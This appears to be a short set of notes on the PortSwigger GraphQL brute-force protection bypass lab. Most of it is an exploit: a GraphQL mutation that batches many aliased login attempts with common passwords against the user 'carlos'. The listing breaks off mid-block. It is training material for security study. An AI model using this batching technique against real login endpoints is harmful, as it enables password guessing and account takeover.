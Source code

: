 From <https://portswigger.net/web-security/graphql/lab-graphql-brute-force-protection-bypass> 

Paste in DOM console 
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/3dee92b1-6185-459f-86cb-df87bbba0326)




Our exploit 
```
mutation {
    bruteforce0: login(input: { password: "123456", username: "carlos" }) {
        token
        success
    }
    bruteforce1: login(input: { password: "password", username: "carlos" }) {
        token
        success
    }
    bruteforce2: login(input: { password: "12345678", username: "carlos" }) {
        token
        success
    }
    bruteforce3: login(input: { password: "qwerty", username: "carlos" }) {
        token
        success
    }
    bruteforce4: login(input: { password: "123456789", username: "carlos" }) {
        token
        success
    }
    bruteforce5: login(input: { password: "12345", username: "carlos" }) {
        token
        success
    }
    bruteforce6: login(input: { password: "1234", username: "carlos" }) {
        token
        success
    }
    bruteforce7: login(input: { password: "111111", username: "carlos" }) {
        token
        success
    }
    bruteforce8: login(input: { password: "1234567", username: "carlos" }) {
        token
        success
    }
    bruteforce9: login(input: { password: "dragon", username: "carlos" }) {
        token
        success
    }
    bruteforce10: login(input: { password: "123123", username: "carlos" }) {
        token
        success
    }
    bruteforce11: login(input: { password: "baseball", username: "carlos" }) {
        token
        success
    }
    bruteforce12: login(input: { password: "abc123", username: "carlos" }) {
        token
        success
    }
    bruteforce13: login(input: { password: "football", username: "carlos" }) {
        token
```